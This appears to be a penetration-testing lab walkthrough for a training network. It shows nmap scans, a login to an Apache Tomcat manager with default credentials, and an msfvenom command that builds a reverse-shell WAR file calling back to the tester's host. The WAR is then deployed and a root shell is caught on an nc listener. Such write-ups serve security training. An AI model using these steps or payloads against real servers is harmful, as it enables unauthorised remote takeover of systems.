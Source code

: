 Getting a Foothold

Getting a Foothold

# 1. NMAP Scans
TCP Connect Scan with service detection on all ports
`sudo nmap -sV -sT -p- 10.11.1.209`
![5ab1b8a7b6179ee79203b72d5f727b5e.png](../../../_resources/508fb960b86f4634addedb825fcff36e.png)

No Ping scan with service detection, and run different scripts. Of interest in this output are the Apache Tomcat credentials from http-default-accounts script on port 8080
`sudo nmap -Pn -A -p- -sV --script default,safe,auth,vuln --max-retries 4 10.11.1.209`
![268a71e6b03a9c11ab844285811c5d1d.png](../../../_resources/d21c9008f042461dabff02b15de00d4a.png)

# 2. Browse to the Apache Tomcat webpage. Enter the credentials --> tomcat:s3cret (I forgot to get a screenshot)
[http://10.11.1.209:8080/manager/html](http://10.11.1.209:8080/manager/html)
![bd4784134a52933c1aff8d4b20cd1f1c.png](../../../_resources/dff73667ddd745bd90137256189ebd73.png)


# 3. Notice that you can upload a WAR file in the Deploy table
![c31b39282133be9549b3287d79ec6937.png](../../../_resources/07424de07cf744f9a2cdcae4cb113624.png)

# 4. Create a WAR shellcode file using msfvenom
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.214 LPORT=5678 war > shell.war`
![64c00824db58592690aab95c0674c72d.png](../../../_resources/e8e1e61a5ea341d2b7a96bcf38441402.png)

# 5. Upload shell.war, then press the Deploy button 
![d06a1cea631a4c13824462b3716663ef.png](../../../_resources/f2c4453a20a44b65a351d2719f14d4cf.png)

6. You'll see the shell listed in the Applications table
[http://10.11.1.209:8080/manager/html](http://10.11.1.209:8080/manager/html)
![9f75f0070d1eb3d729ea9beea6aa4250.png](../../../_resources/e9a88faeb2c14764a3695b51e78056cb.png)

# 7. Start an nc listener
![9749751d284a19f61b6bc3af4f488ead.png](../../../_resources/3b2dad634fd749bc8507fc2f6a13165c.png)

# 8. Execute the war file by clicking on the shell.war path listed in the Applications table

# 9. We have a shell on the nc listener
![ffa471ffa499cfa96693d00b8d4635c9.png](../../../_resources/31244758f5ab4d55bc41f40ef3e867c7.png)

# 10. Check who you are... you're root!
![766e10a467708c4800cde1af0ced1688.png](../../../_resources/25966b19703146f8b8925d8c9309e7fb.png)

# 11. Get a better shell
![cb3d6ceb98a320408f3d7193aec5cf42.png](../../../_resources/a9f43adc86b44dcaada71de70aed43ae.png)